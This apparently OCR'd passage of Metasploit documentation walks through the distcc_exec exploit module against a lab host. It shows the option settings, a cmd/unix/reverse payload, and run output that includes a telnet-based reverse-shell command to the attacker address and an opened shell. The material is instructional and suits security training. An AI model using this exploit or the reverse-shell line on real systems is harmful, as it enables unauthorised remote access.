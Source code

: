 ```msf

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/misc/distcc_exec) > 
```

Each module offers configurable options which can be viewed with the `show options`, or aliased `options`, command:
```msf
msf6 exploit(unix/misc/distcc_exec) > set rhost 192.168.123.133
rhost => 192.168.123.133
msf6 exploit(unix/misc/distcc_exec) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
```

For this scenario you can manually set each of the required option values (`RHOST`, `LHOST`, and optionally `PAYLOAD`):
```msf
msf6 exploit(unix/misc/distcc_exec) > run

[+] sh -c '(sleep 4375|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo BmpMGFX6NDVlh5h0;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "BmpMGFX6NDVlh5h0\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.133:48578) at 2023-09-21 14:42:42 +0100

whoami
daemon
```
